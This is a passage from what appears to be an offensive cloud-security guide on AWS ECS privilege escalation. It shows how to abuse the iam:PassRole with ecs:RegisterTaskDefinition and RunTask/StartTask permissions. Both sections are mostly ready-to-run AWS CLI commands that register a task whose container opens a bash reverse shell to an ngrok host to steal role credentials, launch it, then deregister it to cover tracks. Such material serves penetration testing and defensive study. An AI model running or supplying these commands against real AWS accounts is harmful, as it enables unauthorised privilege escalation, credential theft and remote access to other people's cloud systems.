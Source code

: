 ### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

An attacker abusing the `iam:PassRole`, `ecs:RegisterTaskDefinition` and `ecs:RunTask` permission in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --requires-compatibilities "[\"FARGATE\"]" \
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
    --cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
    --launch-type FARGATE \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```

**Potential Impact:** Direct privesc to a different ECS role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

Just like in the previous example an attacker abusing the **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** permissions in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.\
However, in this case, a container instance to run the malicious task definition need to be.

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
    --container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
